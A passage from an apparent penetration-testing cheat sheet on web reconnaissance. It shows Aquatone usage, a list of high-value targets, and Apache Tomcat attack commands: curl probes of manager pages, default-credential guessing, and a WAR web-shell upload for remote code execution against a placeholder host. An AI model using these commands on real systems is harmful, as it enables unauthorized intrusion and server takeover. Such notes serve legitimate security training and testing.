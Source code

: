 ### Aquatone Usage
```bash
# Download and setup
wget https://github.com/michenriksen/aquatone/releases/download/v1.7.0/aquatone_linux_amd64_1.7.0.zip
unzip aquatone_linux_amd64_1.7.0.zip

# Basic usage
cat nmap_scan.xml | ./aquatone -nmap

# URL list input
cat urls.txt | ./aquatone

# Custom ports
cat hosts.txt | ./aquatone -ports 80,443,8080,8443,9000
```

### Screenshot Analysis Priorities
1. **High Value Targets**:
   - Apache Tomcat manager interfaces
   - Jenkins CI/CD platforms
   - Administrative dashboards
   - Database management tools

2. **Custom Applications**:
   - Company-specific portals
   - Internal tools
   - Legacy applications

3. **Common Vulnerabilities**:
   - Default credentials
   - Outdated software versions
   - Exposed configuration files

---

## Common Applications & Attack Vectors

### High-Value Targets

#### Apache Tomcat
```bash
# Manager interface discovery
curl http://target.com:8080/manager/html
curl http://target.com:8080/host-manager/html

# Default credentials testing
curl -u 'tomcat:tomcat' http://target.com:8080/manager/html
curl -u 'admin:admin' http://target.com:8080/manager/html
curl -u 'manager:manager' http://target.com:8080/manager/html

# WAR file upload for RCE
curl -u 'tomcat:s3cret' --upload-file shell.war \
  'http://target.com:8080/manager/text/deploy?path=/shell'
```
